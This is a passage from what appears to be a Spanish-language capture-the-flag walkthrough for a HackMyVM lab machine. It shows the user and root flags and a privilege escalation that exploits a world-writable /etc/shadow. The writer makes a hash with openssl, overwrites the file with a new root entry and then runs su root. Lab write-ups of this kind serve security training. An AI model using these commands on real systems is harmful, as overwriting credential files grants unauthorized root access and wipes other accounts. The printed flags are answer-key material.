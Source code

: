 Vamos a leer la `flag` del usuario.

> user.txt

```
HMV100vmyay
```

## Escalate Privileges

Si listamos los permisos del archivo `shadow`:

```shell
ls -la /etc/shadow
```

Info:

```
-rwxrwx-wx 1 root shadow 963 Aug  2  2021 /etc/shadow
```

Vemos que podemos editar dicho archivo, por lo que haremos lo siguiente:

Primero en nuestro `host` cifrariamos una contraseña:

```shell
openssl passwd -6 '1234'
```

Info:

```
$6$qWPqGmtdE0tOBVd8$LGAi14146AiTqP5JppFa9yHmqzIGAjKX9Qex8p3sD7u8ylf0jcc9oFenvrmWYzm7pZ7X4Ja4.Iy6Ttlqgy1l90
```

Y con dicha contraseña cifrada, lo montaremos de tal forma:

```shell
echo 'root:$6$qWPqGmtdE0tOBVd8$LGAi14146AiTqP5JppFa9yHmqzIGAjKX9Qex8p3sD7u8ylf0jcc9oFenvrmWYzm7pZ7X4Ja4.Iy6Ttlqgy1l90:20061:0:99999:7:::' > /etc/shadow
```

Echo esto, probaremos hacer lo siguiente:

```shell
su root
```

Metemos como contraseña `1234` y veremos que funciona.

Info:

```
root@hundred:/etc# whoami
root
```

Por lo que leeremos la `flag` de `root`.

> root.txt

```
HMVkeephacking
```
